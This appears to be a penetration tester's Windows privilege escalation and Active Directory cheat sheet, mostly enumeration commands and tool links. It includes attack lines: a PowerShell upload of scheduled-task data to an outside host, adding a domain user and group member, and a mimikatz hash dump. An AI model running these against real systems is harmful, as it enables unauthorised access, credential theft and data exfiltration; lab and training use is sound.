 # Windows PrivEsc 

**Step 1** 

Review PrivEsc Mind map

https://github.com/hxhBrofessor/PrivEsc-MindMap/blob/main/windows-mindMap.JPG 

**Step 2** 

Look around the file system!!! 

**Step 3** 

Determine architecure
`systeminfo` 
or 
`$Env:PROCESSOR_ARCHITECTURE` 

*AMD64 for 64-bit and x86 for 32-bit*

**Step 4**
Run (winPEAS)[https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS]

**Step 5**
Run (adPEAS)[https://github.com/61106960/adPEAS]

**Step 6**
Begin manual review if still no leads 

## Active Directory Methodology 
https://s0cm0nkey.gitbook.io/s0cm0nkeys-security-reference-guide/red-offensive/testing-methodology/active-directory

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md

## Basics 

(Manual Enum Guide)[https://fuzzysecurity.com/tutorials/16.html]
(Password Attacks)[https://medium.com/@kuwaitison/local-password-attack-and-credentials-theft-for-windows-linux-5764a1a25363]

`systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`

`whoami /all` 

`whoami /priv` 

`net users` 

`net localgroup`

`netstat -ano` 

`dsacls "DC=htb,DC=local"` 

## Scheduled Tasks 

### generate file 
`schtasks /query /fo LIST /v > scheduled-task.txt`

### transfer off Windows
`powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.49.192/upload.php', 'scheduled-task.txt')` 

### Grep results on Kali
`grep -i "SYSTEM" scheduled-task.txt -B 5 -A 5` 

## Services 

`wmic service list brief` 

`tasklist /v /fi "username eq system` 

`sc query state= all | findstr "SERVICE_NAME:" >> Services.txt` 

`wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """` 

## AlwaysInstallElevated 
`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`

`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated` 

## AD Commands to run

`ldapsearch -H ldap://<ip>:<port> -x -LLL -s sub -b "DC=<domain>,DC=local"` 

### Users
`net user`
`net user hacker password /add /domain` 

### Groups 
`net group "group name"`

`net group "Exchange Windows Permissions" /add account_name` 

## Passwords
### powershell recursive grep like search
`ls -R -Hidden -EA SilentlyContinue | select-string <search string>`

### Get password hashes from mimi. 
`lsadump:​:lsa /patch`

## Metasploit module for exploit suggestions
`post/multi/recon/local_exploit_suggester` 

## Tools to run
(Watson for kernel exploit suggestions)[https://github.com/rasta-mouse/Watson, https://0xdf.gitlab.io/2019/03/05/htb-devel.html]
(Bloodhound)[https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux]
(Powerview)[https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/#ad-enumeration-with-powerview]
(Windows exploit suggester)[https://github.com/AonCyberLabs/Windows-Exploit-Suggester]
(Sherlock)[https://github.com/rasta-mouse/Sherlock](How to use Sherlock)[https://0xdf.gitlab.io/2021/03/17/htb-optimum.html]
(JAWS)[https://github.com/411Hall/JAWS]

